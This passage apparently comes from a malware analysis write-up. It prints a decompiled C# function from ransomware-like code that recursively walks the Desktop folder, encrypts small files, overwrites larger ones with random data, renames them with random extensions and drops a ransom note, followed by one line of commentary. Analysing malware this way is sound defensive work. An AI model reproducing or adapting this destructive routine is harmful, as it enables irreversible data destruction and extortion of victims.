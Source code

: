 ```cs
							if (fileInfo.Length < 2117152L)
							{
								if (Program.encryptionAesRsa)
								{
									Program.EncryptFile(files[i]);
								}
							}
							else if (fileInfo.Length > 200000000L)
							{
								Random random = new Random();
								int length = random.Next(200000000, 300000000);
								string @string = Encoding.UTF8.GetString(Program.random_bytes(length));
								File.WriteAllText(files[i], Program.randomEncode(@string));
								File.Move(files[i], files[i] + "." + Program.RandomStringForExtension(4));
							}
							else
							{
								string string2 = Encoding.UTF8.GetString(Program.random_bytes(Convert.ToInt32(fileInfo.Length) / 4));
								File.WriteAllText(files[i], Program.randomEncode(string2));
								File.Move(files[i], files[i] + "." + Program.RandomStringForExtension(4));
							}
							if (flag)
							{
								flag = false;
								File.WriteAllLines(location + "/" + Program.droppedMessageTextbox, Program.messages);
							}
						}
					}
					catch
					{
					}
				}
				string[] directories = Directory.GetDirectories(location);
				for (int j = 0; j < directories.Length; j++)
				{
					Program.encryptDirectory(directories[j]);
				}
			}
			catch (Exception)
			{
			}
		}

```

This function is responsible of encryption directories , it takes `location` as  input . This `location` is defined in the `lookForDirectories`  function which refers to the `Desktop`
 directory in windows env. 
 